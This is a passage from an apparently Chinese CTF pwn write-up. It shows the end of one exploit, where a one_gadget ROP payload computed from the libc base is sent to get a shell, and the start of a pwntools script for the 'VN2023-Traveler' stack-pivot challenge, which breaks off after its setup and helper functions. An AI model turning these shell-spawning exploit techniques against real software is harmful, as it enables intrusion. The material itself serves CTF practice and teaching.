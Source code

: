 ```plain
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)


itr()
```

‍

### VN2023-Traveler

限制 0x10 大小的栈迁移

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node4.buuoj.cn',29758)
else:
    p = process(name)


libcso = '/lib/x86_64-linux-gnu/libc-2.31.so'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
```